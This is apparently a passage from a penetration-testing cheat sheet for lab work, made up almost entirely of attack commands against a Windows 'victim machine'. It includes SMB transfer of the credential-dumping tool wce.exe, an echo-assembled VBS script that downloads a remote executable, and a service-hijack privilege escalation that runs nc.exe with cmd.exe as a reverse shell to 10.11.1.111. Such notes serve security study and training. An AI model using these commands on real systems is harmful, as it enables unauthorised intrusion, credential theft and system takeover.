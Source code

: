 ```bash
		read only = yes
		directory mode = 0555
		force user = nobody

	chmod -R 777 smb_path
	chown -R nobody:nobody smb_path
	service smbd restart

# Victim machine with reverse shell
Download: copy \\10.11.1.111\Lab\wce.exe .
Upload: copy wtf.jpg \\10.11.1.111\Lab
```

### Windows download with VBS

```
# In reverse shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# Execute
cscript wget.vbs http://10.11.1.111/file.exe file.exe
```

### Windowss XP SP1 PrivEsc

```bash
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.1.111 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost
```
